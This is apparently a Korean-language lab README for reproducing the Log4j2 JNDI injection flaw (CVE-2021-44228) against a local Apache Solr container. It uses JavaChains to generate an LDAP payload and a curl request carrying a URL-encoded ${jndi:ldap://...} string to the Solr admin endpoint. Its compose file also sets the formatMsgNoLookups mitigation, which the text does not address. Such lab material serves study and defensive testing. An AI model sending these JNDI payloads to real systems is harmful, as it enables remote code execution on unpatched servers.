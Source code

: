 # Apache Log4j2 JNDI 인젝션 취약점 (CVE-2021-44228)

Apache Log4j 2는 Log4j 1.x의 상위 버전으로, Logback에서 사용 가능한 많은 개선 사항을 제공하면서 Logback의 구조적 문제를 해결했습니다.

2021년 12월, Apache Log4j2에서 0-day 취약점이 발견되었습니다. Log4j의 JNDI 지원이 이름 해석을 제한하지 않았기 때문에 `rmi:` 및 `ldap:` 같은 프로토콜이 안전하지 않거나 원격 코드 실행을 허용할 수 있습니다.

## 취약점 환경 구성

### 1. JavaChains 설치
PoC를 수행하기 위해 JavaChains를 설치합니다. JavaChains는 JNDI 페이로드를 생성하고 LDAP 서버를 실행하는데 사용됩니다. 수동으로 설치하는 대신, docker-compose.yml 파일에 서비스를 추가하여 자동화된 설치를 구성했습니다.

```bash
# JavaChains 디렉토리 생성
mkdir -p CVE-2021-44228/java-chains

# Dockerfile 생성
cat > CVE-2021-44228/java-chains/Dockerfile << 'EOF'
FROM openjdk:8-jdk
WORKDIR /app
COPY target/java-chains-1.0-SNAPSHOT.jar app.jar
EXPOSE 8011
ENTRYPOINT ["java", "-jar", "app.jar"]
EOF
```

### 2. docker-compose.yml 수정
기존 docker-compose.yml 파일에 JavaChains 서비스를 추가합니다:

```yaml
version: '3'
services:
  solr:
    image: vulhub/solr:8.11.1
    ports:
      - "8983:8983"
    environment:
      - SOLR_OPTS=-Dlog4j2.formatMsgNoLookups=true
    volumes:
      - ./solr:/var/solr
    command:
      - solr-precreate
      - test
    restart: always

  java-chains:
    build: ./java-chains
    ports:
      - "8011:8011"
    restart: always
```

### 3. 환경 실행
다음 명령어로 환경을 실행합니다:

```bash
docker-compose up -d
```
JavaChains 접속
![image](https://github.com/user-attachments/assets/a54ee6a0-a5da-4607-a6cf-1587055f4523)

패스워드를 찾기 위해 
### 4. JavaChains 비밀번호 확인
JavaChains 웹 인터페이스에 접속하기 위한 비밀번호는 다음 명령어로 확인할 수 있습니다:

```bash
docker logs java-chains | grep password
```
![자바체인 로그](https://github.com/user-attachments/assets/65a2a400-e53a-430e-9e53-6a213d18841d)

## 취약점 공격

1. JavaChains 웹 인터페이스 접속:
   - 브라우저에서 http://localhost:8011 접속
   - 위에서 확인한 비밀번호 입력
   - 명령어 입력 (예: `touch /tmp/success`)
   - "Generate" 버튼 클릭하여 LDAP URL 생성
   - ![java-chains 접속6](https://github.com/user-attachments/assets/d2c5bb0b-e348-4059-8a29-b8bd74f30468)


2. 생성된 LDAP URL을 사용하여 Solr에 페이로드 전송:
```bash
curl "http://localhost:8983/solr/admin/cores?action=%24%7Bjndi%3Aldap%3A%2F%2F127.0.0.1%3A50389%2F[생성된_ID]%7D"
```
![image](https://github.com/user-attachments/assets/7623333a-9a13-4fc6-8932-8fbc68eb4971)

3. 명령어 실행 확인:
```bash
docker exec -it cve-2021-44228-solr-1 bash
ls -l /tmp/success
```
![image](https://github.com/user-attachments/assets/eacafb91-137f-4404-8ee3-c220cf4ca368)

## 주의사항

1. Java Chains와 Solr 컨테이너가 같은 Docker 네트워크에 있어야 합니다.
2. JDK 버전이 8u191 미만인 경우에만 `rmi://` 또는 `ldap://` 프로토콜을 사용할 수 있습니다.
3. 취약점 공격 시 반드시 테스트 환경에서만 실행해야 합니다.

## 참고 자료

- https://logging.apache.org/log4j/2.x/security.html
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://xz.aliyun.com/t/10649 
